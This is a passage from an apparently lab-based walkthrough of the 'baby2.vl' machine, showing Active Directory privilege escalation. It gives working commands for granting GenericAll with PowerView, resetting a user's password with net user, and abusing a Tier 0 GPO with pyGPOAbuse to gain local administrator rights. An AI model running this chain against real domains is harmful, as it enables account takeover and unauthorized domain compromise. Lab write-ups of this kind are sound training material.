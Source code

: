 To use `PowerView` first we need to import it

```
. .\PowerView.ps1
```

And now we can give the `LEGACY` group we are in that has the permissions to grant `GenericAll` over `GPOADM`&#x20;

```bash
Add-DomainObjectAcl -PrincipalIdentity "legacy" -TargetIdentity "gpoadm" -Rights All -Verbose
```

This gave us permission to change the `GPOADM's` password to something else using `net.exe` , let's put `Password123!`  as the new password

:::warning
Keep in mind that **net.exe** is not stealth at all and gives obvious traces to mark it as a security concerns, so in real life *Red Teaming* / *Pentesting* you shouldn't use it\
:::

```powershell
net user "gpoadm" Password123!
```

As we can see in `netexec` We successfully changed the user's password

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FD3dlCc9TfdiAVNXuCDIg%2Fimage.png?alt=media&#x26;token=5d87109e-5124-48c6-b991-7e21148386de" alt=""><figcaption></figcaption></figure>

Now let's enumerate the *outbound object control* of this user using `bloodhound` like we did with `AMELIA.GRIFFITH`&#x20;

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FSQb6qLXrFFzH3V8IwDmw%2Fimage.png?alt=media&#x26;token=f8132c2c-188a-4b01-b198-f2f68692ed55" alt=""><figcaption></figcaption></figure>

There's an interesting `GenericAll` permission over a Tier 0 GPO

:::note
**Tier 0 GPOs** are Group Policy Objects that can affect **Tier 0 assets** - the most privileged accounts and systems in an Active Directory environment.\
:::

We can use [pyyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse) in order to abuse this right

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2F8oNvm6cCV8jkPSSQq6E7%2Fimage.png?alt=media&#x26;token=e3f6e262-9c05-45f1-9bb9-078f1dd83e28" alt=""><figcaption></figcaption></figure>

Let's try to execute a  command that  adds the `GPOADM` user into the *administrators* group, to do this we need to collect the `GPO id`, we can find that using `BloodHound`&#x20;

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FYTDDcC4U0kc4P9eZOeAR%2Fimage.png?alt=media&#x26;token=444d65e8-59ee-4f85-8bb2-89c9e755a912" alt=""><figcaption></figcaption></figure>

And now crafting our command which will add us to the administrators local group with the following command `net localgroup administrators gpoadm /add`&#x20;

```bash
python3 pyGPOAbuse/pygpoabuse.py baby2.vl/gpoadm:'Password123!' -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -command 'net localgroup administrators gpoadm /add'
```

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2F88oLMu4qN6dqNePuUKs7%2Fimage.png?alt=media&#x26;token=8b6b1f6d-e78a-4ccb-9635-9d5c08c809f1" alt=""><figcaption></figcaption></figure>
